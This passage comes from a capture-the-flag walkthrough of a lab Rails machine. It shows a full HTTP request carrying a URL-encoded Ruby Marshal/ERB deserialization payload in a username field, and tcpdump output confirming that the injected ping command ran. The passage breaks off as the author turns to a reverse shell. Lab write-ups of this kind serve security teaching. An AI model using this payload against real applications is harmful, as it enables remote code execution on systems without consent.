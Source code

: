 Now I’ll head to the change username page on the site. To ensure that Firefox
doesn’t encode anything, I’ll use Burp to intercept the POST request and
change the username there:

    
    
    POST /users/18 HTTP/1.1
    Host: 10.10.10.211:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.211:8080/users/18/edit
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 189
    Connection: close
    Cookie: _session_id=9cad63cc9ba727f097eea89d0897a5c6
    Upgrade-Insecure-Requests: 1
    
    utf8=%E2%9C%93&_method=patch&authenticity_token=dEbIRH3%2Bo0wlnp9yujf6GjqArxu33QV7eT1RpcmHIZGOnuWpJvYG%2BUFvZOupB87GfoXq9Hm%2B9MP7CVK9bf1FIA%3D%3D&user%5Busername%5D=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%1C%60ping+-c+1+10.10.14.19%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T&commit=Update+User
    

When I send that on, the page returns a 500 error.

However, if I refresh `/articles`, the page shows the ping results:

![image-20201108070903903](https://0xdfimages.gitlab.io/img/image-20201108070903903.png)

And I see the ping at `tcpdump` listening on my host:

    
    
    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:05:54.834195 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1333, seq 1, length 64
    07:05:54.834289 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1333, seq 1, length 64
    07:05:54.850773 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1334, seq 1, length 64
    07:05:54.850862 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1334, seq 1, length 64
    07:05:54.867800 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1335, seq 1, length 64
    07:05:54.867929 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1335, seq 1, length 64
    

It’s interesting that it pings three times given that I used `-c 1`, but
perhaps it is executed three times.

### Shell

To get a shell, I’ll use the same process, this time with `code` being a Bash
reverse shell:

    
    